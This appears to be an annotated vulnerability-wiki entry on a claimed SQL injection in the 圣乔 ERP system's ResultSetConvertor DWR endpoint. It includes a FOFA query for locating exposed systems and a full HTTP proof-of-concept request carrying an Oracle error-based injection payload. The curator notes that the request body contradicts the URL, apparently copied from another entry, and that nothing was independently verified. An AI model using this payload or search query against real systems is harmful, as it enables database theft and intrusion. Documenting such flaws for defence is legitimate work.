

# 圣乔ERP ResultSetConvertor SQL 注入声明

## 条目说明

- 对象与具体问题：圣乔ERP；ResultSetConvertor SQLi声明
- 版本、配置及部署条件：无版本
- 认证与权限前提：声称未认证，带会话
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- URL是ResultSetConvertor.queryForMapWithDefaultValues但正文仍DwrUtil/getSupplyQueryKeyword，与29整段照搬
- DWR实际分派依据体内scriptName/methodName，不能据此证新接口
- 缺参数类型/Content-Type/根因；在野断言无引证

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

圣乔ERP系统 ResultSetConvertor.queryForMapWithDefaultValues.dwr 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

圣乔ERP系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="圣乔-ERP系统"

POC/EXP：

```http
POST /erp/dwr/call/plaincall/ResultSetConvertor.queryForMapWithDefaultValues.dwr HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=C714EB74E3409570A9160051C806C3A7

callCount=1
page=/erp/dwr/test/DwrUtil
httpSessionId=
scriptSessionId=7D0BA25CD588C62EB9A08A089C7F368D561
c0-scriptName=DwrUtil
c0-methodName=getSupplyQueryKeyword
c0-id=0
c0-param0=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(122)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (99=99) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(122)||CHR(118)||CHR(113)||CHR(62))) FROM DUAL)
batchId=9
```





## 漏洞修复

对用户传入的参数进行限制。

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
